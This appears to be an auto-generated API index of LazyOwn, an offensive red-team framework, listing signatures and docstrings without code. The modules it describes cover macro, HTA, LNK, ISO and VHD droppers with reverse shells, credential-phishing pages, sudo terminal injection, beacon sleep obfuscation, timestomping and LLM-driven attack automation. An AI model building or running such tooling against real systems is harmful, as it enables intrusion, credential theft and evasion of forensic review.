- `SleepObfuscationConfig` (line 100) `class SleepObfuscationConfig` - *Runtime configuration for the active sleep obfuscation technique.

Attributes:
    technique_name: Name of the selected technique.
    enabled: Whether sleep obfuscation is active.
    encrypt_heap: Encrypt beacon heap memory during sleep.
    encrypt_stack: Encrypt thread stack during sleep.
    encrypt_peb: Hide/Patch Process Environment Block.
    rwx_to_rw_cycle: Temporarily change memory protections.
    indirect_syscalls: Use indirect syscalls for protection changes.
    module_stomp_target: DLL name for module stomping (if applicable).
    rop_gadget_count: Number of ROP gadgets to use (Ekko-style).
    sleep_delay_ms: Artificial delay in ms to pace operations.
    custom_params: Free-form dict for technique-specific parameters.*
- `SleepTechniqueCatalog` (line 163) `class SleepTechniqueCatalog` - *Curated catalog of sleep obfuscation techniques.

New techniques are registered via ``register()``. The catalog
is immutable at runtime after initial population.*
- `SleepTechniqueValidator` (line 365) `class SleepTechniqueValidator` - *Validates a SleepObfuscationConfig against technique constraints.*
- `SleepObfuscationEngine` (line 394) `class SleepObfuscationEngine` - *Engine for selecting, configuring, and validating sleep obfuscation.

Composes a technique catalog, a validator, and runtime configuration.
Provides the primary interface for beacon compile-time and run-time
sleep obfuscation decisions.

Attributes:
    catalog: The technique catalog.
    validator: The config validator.
    config: The active runtime configuration.*

**Functions:**
- `_build_default_catalog` (line 201) `def _build_default_catalog()` - *Build the default curated sleep obfuscation catalog.*

**Methods:**
- `to_dict` (line 129) `def to_dict(self)` - *Serialize to dictionary.*
- `from_dict` (line 146) `def from_dict(cls, raw)` - *Build from dictionary.*
- `__init__` (line 170) `def __init__(self)`
- `register` (line 173) `def register(self, technique)` - *Register a technique in the catalog.*
- `get` (line 177) `def get(self, name)` - *Retrieve a technique by name. Raises KeyError if missing.*
- `list_all` (line 184) `def list_all(self)` - *Return all registered techniques sorted by detection resistance.*
- `list_by_platform` (line 192) `def list_by_platform(self, platform)` - *Return techniques supported on a given platform.*
- `list_names` (line 196) `def list_names(self)` - *Return sorted list of technique names.*
- `validate` (line 369) `def validate(config, technique)` - *Validate config against a technique definition.

Returns a list of error strings (empty = valid).*
- `validate_config` (line 386) `def validate_config(config)` - *Validate the config itself for internal consistency.*
- `__init__` (line 407) `def __init__(self, catalog)`
- `catalog` (line 416) `def catalog(self)` - *Return the technique catalog.*
- `config` (line 421) `def config(self)` - *Return the active runtime configuration.*
- `detection_resistance` (line 426) `def detection_resistance(self)` - *Return the detection resistance score of the active technique.

If the active technique is not found in the catalog (e.g., custom
catalog was provided but config still references a built-in name),
fall back to the highest available technique in the catalog.*
- `select` (line 442) `def select(self, technique_name)` - *Select a technique from the catalog.

Returns the SleepTechnique. Raises KeyError if not found.*
- `configure` (line 449) `def configure(self, technique, overrides)` - *Build a validated SleepObfuscationConfig for a technique.

Args:
    technique: The SleepTechnique to configure.
    overrides: Optional dict to override default config values.

Returns:
    A validated SleepObfuscationConfig ready for beacon embedding.*
- `validate` (line 484) `def validate(self, config)` - *Validate configuration against the active technique.

Args:
    config: Optional config to validate. Uses self.config if None.

Returns:
    List of error strings (empty = valid).*
- `recommend` (line 500) `def recommend(self, platform)` - *Recommend techniques for a platform sorted by detection resistance.

Returns techniques supported on the given platform, sorted with the
highest detection resistance first.*
- `to_dict` (line 513) `def to_dict(self)` - *Serialize the entire engine state to a dictionary.*
- `from_dict` (line 522) `def from_dict(cls, raw)` - *Build an engine from a serialized state dictionary.*

#### `socks_proxy.py`
**Path:** `modules/socks_proxy.py`
**File Doc:** *SOCKS5 proxy engine for tunneling traffic through LazyOwn beacons.  Provides a configuration-driven SOCKS5 proxy that allows operators to route external tools through a compromised beacon's network. Supports authentication, activity logging, connection limits, and bandwidth throttling.  The engine is designed as a specification-only module: it defines the protocol, configuration, and validation contracts without coupling to any specific transport implementation. Concrete transport adapters (e.g., WebSocket, HTTP long-poll) inject their own I/O layer.  Contracts: - SocksProxyConfig: immutable configuration for a SOCKS proxy instance - SocksAuthMethod: enumeration of supported authentication methods - SocksCommand: SOCKS5 command types (CONNECT, BIND, UDP) - SocksProxyEngine: validates config, builds proxy specs, tracks sessions - SocksSession: represents an active proxied connection - SocksValidator: validates config, client requests, and protocol states  Design (SOLID): - Single Responsibility: config, session, engine, validator are separate - Open/Closed: new auth methods added via enum without modifying engine - Liskov: session and config are safely substitutable dataclasses - Interface Segregation: engine exposes only spec/validation, not I/O - Dependency Inversion: depends on abstract config dict, not on sockets  Usage: from modules.socks_proxy import SocksProxyEngine*

**Classes:**
- `SocksAuthMethod` (line 65) `class SocksAuthMethod(IntEnum)` - *SOCKS5 authentication methods per RFC 1928.*
- `SocksCommand` (line 74) `class SocksCommand(IntEnum)` - *SOCKS5 command types per RFC 1928.*
- `SocksAddressType` (line 82) `class SocksAddressType(IntEnum)` - *SOCKS5 address types per RFC 1928.*
- `SocksReply` (line 90) `class SocksReply(IntEnum)` - *SOCKS5 reply codes per RFC 1928.*
- `SocksSession` (line 120) `class SocksSession` - *Represents a single active proxied connection.

Attributes:
    session_id: Unique identifier for this session.
    target_host: Destination hostname or IP address.
    target_port: Destination TCP port.
    beacon_client_id: Client ID of the beacon handling this session.
    bytes_sent: Total bytes sent to target.
    bytes_received: Total bytes received from target.
    created_at: Unix timestamp of session creation.
    last_activity: Unix timestamp of last data transfer.*
- `SocksProxyConfig` (line 166) `class SocksProxyConfig` - *Configuration for a SOCKS5 proxy instance.

Attributes:
    bind_address: IP address to bind the proxy listener.
    bind_port: TCP port to bind.
    auth_methods: Ordered list of supported authentication methods.
    username: Username for USERNAME_PASSWORD auth.
    password: Password for USERNAME_PASSWORD auth.
    max_connections: Maximum concurrent proxied connections.
    session_timeout_seconds: Idle session timeout in seconds.
    bandwidth_limit_bps: Maximum bandwidth in bytes per second (0 = unlimited).
    allow_localhost: Allow connections to loopback addresses.
    allow_private_ranges: Allow connections to RFC 1918 addresses.
    allowed_ports: List of allowed destination ports (empty = all allowed).
    denied_ports: List of denied destination ports.
    log_connections: Enable connection logging.*
- `SocksValidator` (line 244) `class SocksValidator` - *Validates SOCKS5 proxy configuration and request parameters.

Ensures bind addresses are valid IPs, ports are in range,
authentication settings are consistent, and access control
rules are well-formed.*
- `SocksProxyEngine` (line 368) `class SocksProxyEngine` - *SOCKS5 proxy specification engine.

Provides configuration, validation, and session management
for a SOCKS5 proxy tunneled through a LazyOwn beacon. Does
not handle I/O; concrete adapters inject their transport.

Attributes:
    config: The SOCKS proxy configuration.
    validator: The configuration and request validator.
    sessions: Active proxied sessions keyed by session_id.*

**Methods:**
- `message` (line 103) `def message(self)` - *Return a human-readable message for this reply code.*
- `elapsed_seconds` (line 144) `def elapsed_seconds(self)` - *Return seconds since session creation.*
- `to_dict` (line 150) `def to_dict(self)` - *Serialize session to dictionary.*
- `to_dict` (line 199) `def to_dict(self)` - *Serialize config to dictionary.*
- `from_dict` (line 218) `def from_dict(cls, raw)` - *Build config from dictionary.*
- `validate_config` (line 253) `def validate_config(config)` - *Validate a SocksProxyConfig and return error messages.

Returns an empty list if the config is valid.*
- `validate_request` (line 300) `def validate_request(command, address_type, host, port, config)` - *Validate a SOCKS5 request against the proxy configuration.

Args:
    command: SOCKS command byte (CONNECT, BIND, UDP_ASSOCIATE).
    address_type: Address type byte (IPV4, DOMAIN, IPV6).
    host: Target hostname or IP address.
    port: Target port.
    config: Optional proxy config for access control checks.

Returns:
    Tuple of (is_valid, reply_code, message).*
- `_check_access_control` (line 340) `def _check_access_control(host, port, config)` - *Apply access control rules from proxy config.*
- `__init__` (line 381) `def __init__(self, config)`
- `config` (line 387) `def config(self)` - *Return the current proxy configuration.*
- `sessions` (line 392) `def sessions(self)` - *Return active proxied sessions.*
- `session_count` (line 397) `def session_count(self)` - *Return the number of active sessions.*
- `validate` (line 401) `def validate(self, config)` - *Validate the configuration.

Args:
    config: Optional config to validate. Uses self.config if None.

Returns:
    List of error strings (empty = valid).*
- `build_spec` (line 413) `def build_spec(self)` - *Build a JSON-serializable proxy specification for beacon delivery.

The spec contains everything a beacon needs to set up a
SOCKS5 proxy listener and relay traffic through its C2.*
- `create_session` (line 436) `def create_session(self, session_id, target_host, target_port, beacon_client_id)` - *Create and track a new proxied session.

Returns None if max_connections is reached.*
- `remove_session` (line 475) `def remove_session(self, session_id)` - *Remove a session by ID. Returns True if it existed.*
- `get_session` (line 482) `def get_session(self, session_id)` - *Return a session by ID, or None.*
- `add_bytes` (line 486) `def add_bytes(self, session_id, sent, received)` - *Update byte counters for a session.*
- `cleanup_expired` (line 497) `def cleanup_expired(self)` - *Remove sessions that have exceeded the timeout. Returns count removed.*
- `list_sessions` (line 511) `def list_sessions(self)` - *Return a list of all active sessions as dictionaries.*
- `_find_oldest_session` (line 515) `def _find_oldest_session(self)` - *Return the session_id of the least recently active session.*
- `from_dict` (line 522) `def from_dict(cls, raw)` - *Build a SocksProxyEngine from a configuration dictionary.*
- `from_payload` (line 528) `def from_payload(cls, payload)` - *Build a SocksProxyEngine from a LazyOwn payload configuration.*

#### `staged_delivery.py`
**Path:** `modules/staged_delivery.py`
**File Doc:** *Staged payload delivery — HTA, Office macros, LNK files, ISO/VHD packaging.  Generates droppers and delivery mechanisms for initial access. Covers five delivery vectors: HTA applications, Office VBA macros with XML 4.0 support, Windows LNK shortcut files (.lnk), ISO image packaging, and VHD disk packaging.  All payloads embed connection parameters from payload.json and support multiple payload formats (PowerShell, VBScript, JavaScript, binary droppers).*

**Classes:**
- `StageDeliveryConfig` (line 25) `class StageDeliveryConfig` - *Configuration for staged payload delivery.

Attributes:
    lhost: Attacker IP or hostname.
    lport: Listener port.
    format: Delivery format (hta, vba, xlm, lnk, iso, vhd).
    payload_type: Embedded payload type (powershell, vbscript, js, exe, dll).
    payload_url: Optional URL to host the stage (overrides inline embedding).
    app_name: Display name for Office macro documents.
    icon_path: Icon file path for .lnk generation.
    persistence: Add persistence after delivery (registry, scheduled task).
    obfuscate: Apply obfuscation to embedded scripts.*
- `StagedDeliveryFactory` (line 51) `class StagedDeliveryFactory` - *Generate staged payloads across multiple delivery vectors.

Supports HTA, VBA/XLM macros, LNK shortcuts, ISO images, and VHD disks.
All payloads embed a reverse shell or C2 beacon stage.

Attributes:
    config: Delivery configuration from payload.json context.
    output_dir: Directory for generated delivery artifacts.*

**Methods:**
- `__init__` (line 83) `def __init__(self, config, output_dir)`
- `_obfuscate_powershell` (line 88) `def _obfuscate_powershell(self, code)`
- `_obfuscate_vbscript` (line 95) `def _obfuscate_vbscript(self, code)`
- `_payload_command` (line 102) `def _payload_command(self)`
- `generate_hta` (line 134) `def generate_hta(self)` - *Generate an HTA (HTML Application) dropper.

HTAs execute with mshta.exe and have full trust — no security warnings.

Returns:
    HTA file content as string with embedded payload.*
- `generate_vba_macro` (line 171) `def generate_vba_macro(self)` - *Generate a VBA macro for Office documents (Word/Excel).

Returns:
    VBA macro source ready for Document_Open or Auto_Open.*
- `generate_xlm_macro` (line 219) `def generate_xlm_macro(self)` - *Generate an Excel 4.0 (XLM) macro for legacy macro execution.

XLM macros evade many modern macro analysis tools and still execute
in current Excel versions with VBA macro settings enabled.

Returns:
    XLM macro formula sheet content.*
- `generate_lnk` (line 237) `def generate_lnk(self)` - *Generate a Windows .lnk shortcut file with embedded command execution.

Returns:
    Raw .lnk file bytes.*
- `generate_iso` (line 301) `def generate_iso(self, inner_files)` - *Generate an ISO 9660 image with an embedded payload autorun.

Args:
    inner_files: Dict mapping filenames to byte contents for the ISO.

Returns:
    Raw ISO 9660 image bytes.*
- `_build_primary_volume_descriptor` (line 336) `def _build_primary_volume_descriptor(self, files)`
- `generate_vhd` (line 370) `def generate_vhd(self, inner_files)` - *Generate a VHD (Virtual Hard Disk) image with embedded payloads.

VHD files auto-mount on Windows 10+ when double-clicked, providing
an alternative delivery vector that bypasses mark-of-the-web.

Args:
    inner_files: Dict of filenames to byte contents.

Returns:
    Raw VHD file bytes.*
- `generate_all` (line 420) `def generate_all(self)` - *Generate all delivery formats for the current configuration.

Returns:
    Dict mapping format name to artifact content or file path.*
- `generate_phishing_page` (line 460) `def generate_phishing_page(self, template)` - *Generate a credential harvesting HTML page.

Args:
    template: Phishing template name (office365, gmail, outlook, custom).

Returns:
    HTML content for a credential harvesting page.*
- `_office365_phish` (line 476) `def _office365_phish(self)`
- `_gmail_phish` (line 504) `def _gmail_phish(self)`
- `_outlook_phish` (line 532) `def _outlook_phish(self)`

#### `state_manager.py`
**Path:** `modules/state_manager.py`
**File Doc:** *UnifiedStateManager — single source of truth for all LazyOwn campaign state.  Replaces the fragmented state systems (LazyOwnDB SQLite, WorldModel JSON, FactStore JSON, SessionState JSON, ObjectiveStore JSONL) with one API that: - Uses SQLite (LazyOwnDB) as the persistent backend - Maintains JSON caches for backward compatibility and fast reads - Publishes events via UnifiedEventBus on every state mutation - Syncs WorldModel in-memory graph from DB on demand  Design (SOLID) -------------- - Single Responsibility : owns all campaign state CRUD as one coherent API. - Open/Closed           : new entity types added via the same add/get/list pattern. - Liskov                : all state operations return typed dicts or dataclasses. - Interface Segregation : each domain (hosts, services, creds, etc.) is a logical group, not a separate interface. - Dependency Inversion  : consumers depend on StateManager, not on DB or files.*

**Classes:**
- `HostSummary` (line 65) `class HostSummary`
- `SessionSnapshot` (line 76) `class SessionSnapshot`
- `StateManager` (line 92) `class StateManager` - *Unified campaign state API backed by SQLite with JSON caches.

Usage::

    sm = StateManager()
    sm.add_host("10.0.0.1", hostname="dc01", os="Windows Server 2019")
    sm.add_service("10.0.0.1", 445, "tcp", "microsoft-ds", "SMB")
    sm.add_credential("10.0.0.1", "admin", "P@ssw0rd", origin="crackmapexec")
    snapshot = sm.session_snapshot()*

**Functions:**
- `_load_json` (line 43) `def _load_json(path)`
- `_save_json` (line 53) `def _save_json(path, data)`
- `get_state_manager` (line 776) `def get_state_manager()`

**Methods:**
- `__init__` (line 107) `def __init__(self, db_path, sessions_dir, world_model_path, facts_path)`
- `instance` (line 129) `def instance(cls)`
- `db` (line 137) `def db(self)`
- `workspace_id` (line 146) `def workspace_id(self)`
- `_ensure_workspace` (line 151) `def _ensure_workspace(self)`
- `set_payload` (line 165) `def set_payload(self, payload)`
- `_publish` (line 169) `def _publish(self, category, event_type, payload)`
- `_find_host` (line 184) `def _find_host(self, address)` - *Find a host by exact address match.*
- `_cred_list_for_host` (line 192) `def _cred_list_for_host(self, host_id)` - *Get credentials for a specific host_id.*
- `_vuln_list_for_host` (line 197) `def _vuln_list_for_host(self, host_id)` - *Get vulnerabilities for a specific host_id.*
- `close` (line 202) `def close(self)`
- `add_host` (line 213) `def add_host(self, address, mac, hostname, os, state)`
- `get_host` (line 236) `def get_host(self, address)`
- `list_hosts` (line 245) `def list_hosts(self)`
- `advance_host` (line 249) `def advance_host(self, address, new_state)`
- `delete_host` (line 275) `def delete_host(self, address)`
- `add_service` (line 287) `def add_service(self, host_address, port, protocol, name, product, version, state)`
- `list_services` (line 319) `def list_services(self, host_address)`
- `add_credential` (line 328) `def add_credential(self, host_address, username, password, realm, cred_type, origin)`
- `list_credentials` (line 362) `def list_credentials(self, host_address)`
- `add_vulnerability` (line 373) `def add_vulnerability(self, host_address, name, severity, description, refs)`
- `list_vulnerabilities` (line 398) `def list_vulnerabilities(self, host_address, severity)`
- `add_loot` (line 411) `def add_loot(self, name, loot_type, path, notes, host_address)`
- `list_loot` (line 444) `def list_loot(self)`
- `add_note` (line 450) `def add_note(self, data, note_type, host_address)`
- `list_notes` (line 473) `def list_notes(self)`
- `import_nmap_xml` (line 479) `def import_nmap_xml(self, xml_path)`
- `import_nmap_from_facts` (line 495) `def import_nmap_from_facts(self, facts)` - *Import hosts and services from a FactStore-style facts dict into DB.*
- `status` (line 550) `def status(self)`
- `_sync_world_model_cache` (line 556) `def _sync_world_model_cache(self)`
- `get_world_model_cache` (line 606) `def get_world_model_cache(self)`
- `load_world_model` (line 612) `def load_world_model(self)` - *Return a WorldModel instance populated from DB state.*
- `session_snapshot` (line 653) `def session_snapshot(self)`
- `export_csv` (line 757) `def export_csv(self, table)`
- `export_summary` (line 761) `def export_summary(self)`

#### `sudo_tiocsti.py`
**Path:** `modules/sudo_tiocsti.py`
**File Doc:** *tiocsti_advanced.py – Production‑grade TIOCSTI injection with multiple attack modes. Usage: python3 tiocsti_advanced.py --mode poll|prefill|cache --payload "command" Run in background: nohup python3 tiocsti_advanced.py --mode poll &*

**Functions:**
- `get_controlling_tty` (line 52) `def get_controlling_tty()` - *Return (file_descriptor, tty_path) for the controlling terminal.*
- `inject_byte` (line 64) `def inject_byte(fd, byte_char)` - *Inject a single byte via TIOCSTI; return success status.*
- `inject_payload` (line 79) `def inject_payload(fd, payload, char_delay)` - *Inject a multi‑character payload. Returns True if all characters were
successfully injected (with retries). char_delay simulates typing speed.*
- `get_sudo_pids_on_tty` (line 102) `def get_sudo_pids_on_tty(tty_path)` - *Return a list of PIDs that are running 'sudo' and have the same
controlling terminal as the given tty_path.*
- `sudo_cache_valid` (line 139) `def sudo_cache_valid()` - *Return True if sudo credentials are cached (i.e., sudo -n succeeds).*
- `mode_poll` (line 149) `def mode_poll(fd, tty_path)` - *Poll for sudo processes; inject payload when sudo exits.*
- `mode_prefill` (line 175) `def mode_prefill(fd)` - *Inject payload repeatedly, regardless of sudo state.*
- `mode_cache` (line 185) `def mode_cache(fd)` - *Check sudo cache; if valid, inject sudo -i once.*
- `main` (line 198) `def main()`

#### `surface_ops.py`
**Path:** `modules/surface_ops.py`
**File Doc:** *Pure attack-surface helpers (no cmd2): discovery targets, confirm parsing.  Used by the ``surface`` CommandSet and unit-tested without the shell.*

**Functions:**
- `is_ipv4` (line 18) `def is_ipv4(value)` - *Return True for dotted-quad IPv4 literals with 0-255 octets.*
- `parse_confirm` (line 26) `def parse_confirm(answer)` - *Return True for an affirmative scan confirmation answer.*
- `discovery_targets` (line 31) `def discovery_targets(sessions_dir)` - *List every discovery IP across the sessions discovery files.*
- `write_world_model_hosts` (line 50) `def write_world_model_hosts(document, sessions)` - *Append unknown estorides host IPs to world_model.json hosts.*

#### `tel.py`
**Path:** `modules/tel.py`

**Functions:**
- `get_machine_id` (line 10) `def get_machine_id()`
- `get_version` (line 24) `def get_version()`
- `to_numbers` (line 36) `def to_numbers(hex_str)` - *Simula la función toNumbers de JavaScript*
- `to_hex` (line 41) `def to_hex(byte_list)` - *Simula la función toHex de JavaScript*
- `decrypt_cookie` (line 46) `def decrypt_cookie(encrypted, key, iv)` - *Descifra usando AES en modo CBC (como slowAES.decrypt(c,2,a,b))*
- `main` (line 53) `def main()` - *Sistema de telemetría de uso por instalación no invasiva.*

#### `test_lazyencoder_decoder.py`
**Path:** `modules/test_lazyencoder_decoder.py`

*No symbols extracted*

#### `threat_model.py`
**Path:** `modules/threat_model.py`
**File Doc:** *threat_model.py — Blue team threat model builder for LazyOwn.  Reads LazyOwn_session_report.csv + sessions/ artefacts, maps commands to MITRE ATT&CK tactics/techniques, and produces a structured JSON threat model consumable by a blue team application.  Outputs: sessions/reports/threat_model.json  Schema (threat_model.json) -------------------------- { "generated_at": "ISO-8601", "assets": [ { "ip": str, "domain": str, "ports": [int, ...], "risk_score": 0-100, "compromise_indicators": [str, ...] } ], "ttps": [ { "technique_id": str,        # T1234.001 "tactic": str,              # Initial Access "technique_name": str, "commands": [str, ...],     # LazyOwn commands that map here "occurrences": int, "first_seen": ISO-8601, "last_seen":  ISO-8601, "severity": "low|medium|high|critical",*

**Classes:**
- `ThreatModelBuilder` (line 267) `class ThreatModelBuilder` - *Builds and serialises the blue team threat model.*

**Functions:**
- `_extract_iocs` (line 245) `def _extract_iocs(text, first_seen)`
- `get_builder` (line 592) `def get_builder()`
- `_add` (line 448) `def _add(ioc)`

**Methods:**
- `build` (line 270) `def build(self)`
- `load` (line 293) `def load(self)`
- `_load_csv` (line 305) `def _load_csv(self)`
- `_build_assets` (line 318) `def _build_assets(self, rows)`
- `_risk_score` (line 352) `def _risk_score(self, commands, ports)`
- `_compromise_indicators` (line 388) `def _compromise_indicators(self, commands)`
- `_build_ttps` (line 404) `def _build_ttps(self, rows)`
- `_build_iocs` (line 444) `def _build_iocs(self, rows)`
- `_build_detection_rules` (line 475) `def _build_detection_rules(self, ttps)`
- `_build_purple_team` (line 505) `def _build_purple_team(self, ttps, detection_rules)` - *Purple team mapping: pair each observed TTP with its detection rule.

Each entry exposes:
  red:   commands used, first/last seen, occurrences
  blue:  detection rule (log_source, condition, response) — or None if gap
  gap:   True when no detection rule covers this technique*
- `_build_summary` (line 560) `def _build_summary(self, rows, assets, ttps)`
- `_save` (line 578) `def _save(self, model)`

#### `timeline_narrator.py`
**Path:** `modules/timeline_narrator.py`
**File Doc:** *LazyOwn Timeline Narrator ========================== Reads events.jsonl, groups them into time windows, and asks Groq to generate a concise red-team prose narrative. Writes sessions/timeline.md.  The narrative reads like a penetration test report timeline: "10:32 — Initial reconnaissance revealed an open HTTP port on 10.10.11.78. 10:35 — SMB enumeration was initiated after detecting port 445 ..."  Public API: narrate(api_key: str | None, force: bool) -> str Builds and returns the narrative text, writes timeline.md. Set force=True to regenerate even if file is fresh (< 5 min old).  load_timeline() -> str Return the last written timeline.md, or empty string.*

**Functions:**
- `_load_events` (line 57) `def _load_events(n)`
- `_format_events_for_prompt` (line 77) `def _format_events_for_prompt(events)`
- `_call_ai` (line 97) `def _call_ai(api_key, events_text, target)` - *Returns (narrative_text, backend_used).*
- `_write_timeline` (line 115) `def _write_timeline(narrative, event_count, target)`
- `narrate` (line 130) `def narrate(api_key, force)` - *Generate and return the timeline narrative. Writes timeline.md.*
- `load_timeline` (line 165) `def load_timeline()` - *Return the last written timeline.md or empty string.*

#### `timestomper.py`
**Path:** `modules/timestomper.py`
**File Doc:** *Filesystem timestomping — MACB timestamp manipulation for stealth.  Modifies file MACB (Modified, Accessed, Created, Birth) timestamps to evade forensic timeline analysis. Supports Windows (SetFileTime via PowerShell/C), Linux (touch + debugfs + utimes), and macOS (touch + xattr).  Integrates with the forensic cleaner to ensure cleaned artifacts blend with legitimate system files. Includes batch timestomping, reference file cloning, and randomized timestamp selection within time windows.*

**Classes:**
- `TimestompConfig` (line 24) `class TimestompConfig` - *Configuration for filesystem timestomping operations.

Attributes:
    target_platform: windows, linux, or macos.
    reference_path: Clone timestamps from this file (legitimate system file).
    target_paths: List of files to modify timestamps on.
    random_window_days: Randomize timestamps within this many days of reference.
    preserve_order: Maintain relative timestamp ordering between files.
    recursive: Apply to all files in target directories.
    include_patterns: Only timestomp files matching these patterns.
    exclude_patterns: Skip files matching these patterns.
    batch_mode: Stomp all files in a directory in a single pass.*
- `FileTimestamps` (line 51) `class FileTimestamps` - *MACB timestamps for a single file.

Attributes:
    path: Absolute file path.
    created: Creation/birth time (Unix epoch).
    modified: Last write time.
    accessed: Last access time.
    entry_modified: Metadata change time (linux only).*
- `Timestomper` (line 69) `class Timestomper` - *Cross-platform filesystem timestamp manipulation.

Generates platform-specific commands for modifying file MACB timestamps
to blend with legitimate system files and evade forensic timeline analysis.

Attributes:
    config: TimestompConfig with target paths and reference timestamps.*

**Methods:**
- `__init__` (line 106) `def __init__(self, config)`
- `windows_timestomp_powershell` (line 110) `def windows_timestomp_powershell(self)` - *Generate PowerShell commands for Windows file timestomping.

Uses .NET System.IO.File to modify Created, LastWriteTime,
and LastAccessTime for target files.

Returns:
    Dict with PowerShell commands and verification steps.*
- `windows_timestomp_c` (line 152) `def windows_timestomp_c(self)` - *Generate C code for Windows timestomping via SetFileTime API.

Using C directly allows more control and avoids PowerShell logging.

Returns:
    C source code string.*
- `linux_timestomp_commands` (line 200) `def linux_timestomp_commands(self)` - *Generate Linux commands for file timestomping.

Uses touch, debugfs, and utimes syscall wrappers to modify
file timestamps at the filesystem level.

Returns:
    Dict with bash commands for MACB manipulation.*
- `macos_timestomp_commands` (line 241) `def macos_timestomp_commands(self)` - *Generate macOS commands for file timestomping.

Uses touch, SetFile (Xcode CLT), and xattr for extended attributes.

Returns:
    Dict with zsh commands for macOS timestamp manipulation.*
- `_pick_reference` (line 269) `def _pick_reference(self, path, platform)`
- `generate_random_timestamps` (line 280) `def generate_random_timestamps(self, reference_ts, window_days)` - *Generate randomized timestamps within a window around the reference.

Useful for batch timestomping where every file gets slightly different
(but plausible) timestamps instead of identical copies.

Args:
    reference_ts: Reference Unix timestamp.
    window_days: Days before/after reference to scatter.

Returns:
    Dict with created, modified, accessed timestamps as Unix epoch floats.*
- `verify_timestamps` (line 300) `def verify_timestamps(self, target_paths)` - *Verify timestamps on target files after modification.

Args:
    target_paths: List of file paths to check.

Returns:
    List of file timestamp dicts.*
- `summary` (line 326) `def summary(self)` - *Return a summary of available timestomping capabilities.

Returns:
    Dict with platform coverage and command availability.*

#### `__init__.py`
**Path:** `modules/tools/__init__.py`
**File Doc:** *Reusable development tools for the LazyOwn autonomous loop.  These are operator/developer harnesses, not framework runtime code: they sandbox the store, fake the LLM/engine boundary and verify the real user-facing paths (loop runner streaming, monitor TUI) without network access. Run them directly with ``python -m modules.tools.<name>`` or import their ``run()`` from a test/session.*

*No symbols extracted*

#### `loop_smoke.py`
**Path:** `modules/tools/loop_smoke.py`
**File Doc:** *End-to-end smoke of the shared loop runner (no LLM, no network).  Fakes the engine and shell, sandboxes the store, then exercises the real ``modules.lazy_runner.run_loop`` path with the milestone panel: bootstrap streaming, verb output visibility, result reporting and the observer/redirect recursion guard. Reusable across dev sessions via ``python -m modules.tools.loop_smoke`` or ``run()`` from tests.*

**Classes:**
- `FakeShell` (line 22) `class FakeShell` - *Shell stand-in whose verb prints like a real tool would.*
- `FakeEngine` (line 31) `class FakeEngine` - *Minimal engine surface used by the runner and progress poller.*

**Functions:**
- `run` (line 77) `def run()` - *Run the smoke and return ``{"ok": bool, "checks": {...}, "result": {...}}``.*
- `main` (line 114) `def main()` - *CLI entry point: print the checks and exit 0/1.*

**Methods:**
- `onecmd_plus_hooks` (line 25) `def onecmd_plus_hooks(self, command)` - *Emit recognizable output for every routed verb.*
- `__init__` (line 36) `def __init__(self)` - *Bind a sandboxed task store and runtime tracker.*
- `bind_shell` (line 44) `def bind_shell(self, shell)` - *Record the bound shell (runner contract).*
- `set_concurrency` (line 48) `def set_concurrency(self, value)` - *Accept the concurrency knob without scheduling anything.*
- `create_task` (line 52) `def create_task(self, goal, description)` - *Create the task record and return its id.*
- `orchestrate` (line 56) `def orchestrate(self)` - *Run the injected executor once and report a done summary.

The delay keeps the runner thread alive across several poll
ticks, which is exactly where the transcript feedback loop used
to hang without emitting anything.*

#### `monitor_smoke.py`
**Path:** `modules/tools/monitor_smoke.py`
**File Doc:** *Headless smoke of the Textual worker monitor (``lazy_view``).  Sandboxes the store, seeds one task with activity and a guard audit record, then drives the real :class:`cli.lazy_monitor.LazyMonitorApp` through Textual's ``run_test`` pilot (compose, poll, tab and control keys). No tty, no network. Reusable via ``python -m modules.tools.monitor_smoke`` or ``run()`` from tests.*

**Functions:**
- `run` (line 20) `def run()` - *Run the monitor smoke and return ``{"ok": bool, "checks": {...}}``.*
- `main` (line 59) `def main()` - *CLI entry point: print the checks and exit 0/1.*
- `_drive` (line 40) `def _drive()`

#### `toolset.py`
**Path:** `modules/toolset.py`
**File Doc:** *Typed tool sets per agent role with shell allowlists.  Ports the LAZY ``agent/toolcatalog.go`` + ``agent/tools.go`` contract: each agent role (planner / worker / main / goals) owns a fixed tool set. Handlers always live in code; this catalog only decides visibility and safe defaults. Shell commands from the LLM go through :func:`extract_tool` (shlex, not naive split) and :func:`validate_shell`.*

**Classes:**
- `ToolSeed` (line 27) `class ToolSeed` - *Catalog entry mirroring LAZY ToolSeed (key + desc + agents).*

**Functions:**
- `builtin_seeds` (line 35) `def builtin_seeds()` - *Return the default graph-tool catalog (handlers stay in code).*
- `resolve` (line 72) `def resolve(agent, tool_key)` - *Return the seed when bound to agent, else None (LAZY ToolResolve).*
- `extract_tool` (line 105) `def extract_tool(command)` - *Split tool name with shlex; flag shell metacharacters.

Returns (tool, has_shell_meta). Empty command yields ("", False).*
- `validate_shell` (line 128) `def validate_shell(role, command)` - *Check a shell command against the role allowlist.

Returns (allowed, reason). Planner is recon-only; exploit verbs are
denied for planner and must run as worker intents (LAZY parity).
Shell metacharacters always require ask (returned as not-allowed
with reason shell_meta so the caller routes to approval).*

#### `toposwarm_bridge.py`
**Path:** `modules/toposwarm_bridge.py`
**File Doc:** *modules/toposwarm_bridge.py ============================ Local brain bridge: connects LazyOwn to the TopoSwarm router when cloud LLMs (Groq / Ollama / Claude Code) are unavailable.  TopoSwarm is a 2M-parameter quaternionic toroidal model trained specifically on LazyOwn tool traces.  It routes natural-language operator prompts to the correct LazyOwn tool + argument without any external API call.  Fallback hierarchy this module implements ----------------------------------------- cloud LLMs available?  →  use them (not this module) ↓ no TopoSwarm model loaded? →  neural routing (16-40% acc, improving) ↓ no keyword routing only    →  regex/keyword matching (~80% acc on common phrases)  Public API ---------- bridge = TopoSwarmBridge() result = bridge.route("scan open ports on 10.10.11.78") # result.tool_name  → "lazyown_run_command" # result.arg        → "set rhost 10.10.11.78\\nlazynmap" # result.confidence → 0.92 # result.backend    → "toposwarm_model" | "toposwarm_keyword"  # For the hive autonomous loop: execute the routed tool via the bridge output = bridge.execute(result)*

**Classes:**
- `RoutedCall` (line 71) `class RoutedCall` - *Result of a routing decision.*
- `OnlineFeedbackLoop` (line 273) `class OnlineFeedbackLoop` - *Collects user feedback on routing decisions and applies it immediately.

Positive feedback:
  → Hebbian update on routing_head.liquid.W_fast (instant, no backprop)
  → Stored as a positive example for the next --finetune run

Negative feedback:
  → Stored as a hard-negative for the next --finetune run
  → No model update (we don't want to reinforce the wrong decision)

Non-blocking: feedback() is fire-and-forget. If the user doesn't call it,
the flow continues unchanged. Feedback persists to disk so it survives
